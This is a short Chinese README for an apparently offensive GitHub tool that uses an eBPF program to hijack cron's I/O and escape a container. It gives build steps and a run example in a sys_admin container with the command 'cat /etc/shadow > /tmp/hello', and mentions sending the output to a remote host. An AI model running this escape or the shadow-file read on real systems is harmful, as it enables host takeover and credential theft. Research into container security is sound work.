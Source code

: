 # BpfEscapeGo
## 主要功能

使用 ebpf 程序劫持 cron 的 io 读写 进行容器逃逸

## 使用方式

### 直接使用主机
```bash
make build
sudo ./bpfescapego
```

### 使用容器的方式
```bash
docker run -it --cap-add sys_admin -v `pwd`:/tmp  ubuntu
# copy `bpfescapego` binary to container
./bpfescapego "cat /etc/shadow > /tmp/hello"
```

下图是展示将输出重定向到远程主机的操作

![输出重定向到远程接收图片](https://github.com/awslshadowstar/BpfEscapeGo/assets/52888924/6039130a-b8f4-430f-a2e4-3485ffa5427e)